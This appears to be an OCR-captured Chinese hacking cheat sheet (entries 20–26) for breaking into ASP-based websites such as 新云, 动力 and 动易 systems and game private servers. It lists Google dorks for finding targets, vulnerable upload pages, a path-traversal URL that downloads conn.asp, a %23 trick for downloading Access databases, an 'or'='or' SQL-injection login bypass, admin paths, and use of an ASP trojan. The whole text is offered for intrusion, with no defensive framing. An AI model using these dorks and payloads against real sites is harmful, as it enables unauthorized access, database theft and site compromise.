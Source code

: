 20.
上传漏洞.
工具 : Domain3.5
网站猎手 1.5版
关键字powered by mypower
检测的页面或文件插入upfile_photo.asp

21.
新云漏洞
这个漏洞ACCESS和SQL版通吃。
Google搜索关键字 "关于本站 - 网站帮助 - 广告合作 - 下载声明 - 友情连接 - 网站地图 - 管理登录"
把flash/downfile.asp?url=uploadfile/../../conn.asp提交到网站根目录。就可以下载conn.asp
以源码，软件等下载站居多。
大家时常碰到数据库如果前面或者中间+了# 可以用%23替换就可以下载了
database\%23newasp.mdb
如：#xzws.mdb 改成%23xzws.mdb

22.
通吃所有商城+动力上传系统

使用工具:挖掘鸡 v1.1 明小子
商城入侵:
关键字:选购->加入购物车->去收银台->确认收货人信息->选付款方式->选配送方式->在线支付或下单后汇款->汇款确认->发货->完成
漏洞页面:upload.asp
upfile_flash.asp

动力入侵:
关键字:powered by mypower
漏洞页面:upfile_photo.asp
Upfile_Soft.asp
upfile_adpic.asp
upfile_softpic.asp

23.
注射漏洞
百度搜索:oioj's blog

24
动易
列目录
admin_articlerecyclebin.asp
inurl:admin_articlerecyclebin.asp

25.
工具:网站猎手
关键词:inurl:Went.asp
后缀:manage/login.asp
口令:'or'='or'

26.
入侵魔兽私服
需要的工具：ASP木马一只。
Domain3.5明小子
关键字：All Right Reserved Design:游戏联盟
后台地址：admin/login.asp
数据库的地址：chngame/#chngame.mdb
